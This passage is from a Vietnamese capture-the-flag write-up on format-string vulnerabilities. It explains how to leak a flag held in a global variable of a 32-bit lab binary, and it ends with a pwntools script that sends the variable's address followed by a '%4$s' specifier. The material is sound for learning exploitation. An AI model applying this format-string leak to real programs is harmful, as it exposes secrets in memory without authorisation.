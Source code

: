 ```%1$x```: thanh ghi rsi
và mình được flag là:
**KMA{AAAAAAAA_YOU_DID_IT_EVEN_IN_64_BIT}**

## Formatstring-leak-flag-in-mem-bss
![image](https://hackmd.io/_uploads/rJzH2yODa.png)

đây là file 32 bit
và mình đọc source code được:
![image](https://hackmd.io/_uploads/H1eOny_D6.png)

chương trình này khác với các bài trước là biến secret không phải biến local của main nên không được nạp vào stack mà nó là biến toàn cục

![image](https://hackmd.io/_uploads/BJ0UA1uv6.png)

khi đọc từ file flag ra ta có flag trên stack do truy xuất từ biến cục bộ **file** ra 
![image](https://hackmd.io/_uploads/BktxAk_w6.png)

nhưng chúng ta có thể thấy khi chạy đến hàm vun() thì stack không còn flag

![image](https://hackmd.io/_uploads/rJ58zeuv6.png)


![image](https://hackmd.io/_uploads/HJZuMgOwa.png)

vậy flag vẫn được lưu trong biến secret nhưng giờ giá trị này không được đẩy lên stack vậy chúng ta có thể tìm đến địa chỉ của biến secret và nhập %s để in ra giá trị của biến này

![image](https://hackmd.io/_uploads/r1lf4x_PT.png)
hoặc chúng ta có thể đọc hàm main và thấy biến secret sẽ ở vị trí cuối cùng của hàm fscanf nên trước khi thực hiện hàm fscanf secret sẽ được nạp đầu tiên vào stack
![image](https://hackmd.io/_uploads/By0FEgdwT.png)

hay debug và vào trong hàm fscanf() trong hàm main() chúng ta có thể thấy chuỗi flag được trỏ bởi secret có địa chỉ là 0x804a060:
![image](https://hackmd.io/_uploads/BkFXGZuvp.png)


và nó chính là **0x804a060** và để lấy giá trị từ địa chỉ này chúng ta dùng %s

![image](https://hackmd.io/_uploads/r1krBgdPa.png)

chúng ta thấy tại vị trí thứ 4 thì chúng ta có thể đọc lại giá trị mà ta nhập vào 

```python=
#!/usr/bin/python3.7
from pwn import *
context.binary = exe = ELF('./Formatstring-leak-flag-in-mem-bss')

p = process(exe.path)

# input()

payload = p32(0x0804a060)
payload += f'%4$s'.encode()
p.send(payload)

p.interactive()
```
